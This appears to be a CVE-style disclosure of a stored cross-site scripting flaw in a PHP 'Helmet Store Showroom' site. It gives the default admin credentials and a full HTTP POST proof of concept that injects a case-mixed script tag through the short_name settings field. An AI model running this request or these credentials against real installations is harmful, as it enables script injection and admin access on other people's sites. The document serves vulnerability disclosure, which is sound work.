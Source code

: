 # Helmet Store Showroom Site Syste - XSS

A vulnerability classified as problematic was found in Helmet Store Showroom Site Syste. This vulnerability affects $system_info code. The manipulation of the argument /hss/admin/?page=system_info leads to cross site scripting. The attack can be initiated remotely.

username:admin password:admin123 ----> {ip}/hss/admin/

Supplier： https://www.sourcecodester.com/php/15851/helmet-store-showroom-site-php-and-mysql-free-source-code.html

/classes/Master.php has XSS

> Payload: <sCrIpT>alert(1)</ScRiPt>

XSS because $short_name can be closed

![image](https://raw.githubusercontent.com/xidaner/CVE_HUNTER/main/img/2022-11-15/22.png)

## Payload

```s
POST /CVE/hss/classes/SystemSettings.php?f=update_settings HTTP/1.1
Host: localhost
Content-Length: 2089
sec-ch-ua: ";Not A Brand";v="99", "Chromium";v="94"
Accept: */*
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary3yij58Dwp8LdWcpx
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.81 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://localhost
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost/CVE/hss/admin/?page=system_info
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=n2hadqmvc7m63oc6q677vrodfv
Connection: close

------WebKitFormBoundary3yij58Dwp8LdWcpx
Content-Disposition: form-data; name="name"

Helmet Store Showroom - PHP
------WebKitFormBoundary3yij58Dwp8LdWcpx
Content-Disposition: form-data; name="short_name"

HSS - PHP<sCrIpT>alert(1)</ScRiPt>
------WebKitFormBoundary3yij58Dwp8LdWcpx
Content-Disposition: form-data; name="content[about_us]"

<p style="margin-right: 0px; margin-bottom: 15px; margin-left: 0px; padding: 0px;">Lorem ipsum dolor sit amet, consectetur adipiscing elit. Aliquam molestie euismod ultricies. Curabitur placerat aliquam diam, quis volutpat tellus dapibus vel. Suspendisse ac dignissim nisi. Donec ut eros pulvinar, placerat magna et, vulputate ipsum. Sed cursus euismod eros, sed finibus felis molestie vitae. Phasellus fringilla vitae enim in tincidunt. Sed convallis ullamcorper fermentum. Ut accumsan, lectus lacinia blandit dapibus, erat lectus convallis arcu, ut sollicitudin elit sapien non dui. Cras ligula quam, blandit at enim et, consequat molestie enim.</p><p style="margin-right: 0px; margin-bottom: 15px; margin-left: 0px; padding: 0px;">Fusce pellentesque felis vitae erat luctus auctor. Aenean mauris nunc, molestie et mattis nec, luctus vitae quam. Pellentesque elementum ex diam, a molestie quam semper commodo. Quisque lobortis tempor tortor, eget bibendum odio placerat ut. Vestibulum non pellentesque urna. Cras a scelerisque turpis, sit amet pharetra nulla. Sed odio urna, pellentesque vitae luctus consequat, lobortis quis tortor. Praesent lectus arcu, ullamcorper at justo a, tristique vulputate massa. Mauris condimentum sit amet orci id hendrerit.</p>
------WebKitFormBoundary3yij58Dwp8LdWcpx
Content-Disposition: form-data; name="files"; filename=""
Content-Type: application/octet-stream


------WebKitFormBoundary3yij58Dwp8LdWcpx
Content-Disposition: form-data; name="img"; filename=""
Content-Type: application/octet-stream


------WebKitFormBoundary3yij58Dwp8LdWcpx
Content-Disposition: form-data; name="cover"; filename=""
Content-Type: application/octet-stream


------WebKitFormBoundary3yij58Dwp8LdWcpx--

```

![image](https://raw.githubusercontent.com/xidaner/CVE_HUNTER/main/img/2022-11-15/20.png)

![image](https://raw.githubusercontent.com/xidaner/CVE_HUNTER/main/img/2022-11-15/19.png)

![image](https://raw.githubusercontent.com/xidaner/CVE_HUNTER/main/img/2022-11-15/21.png)
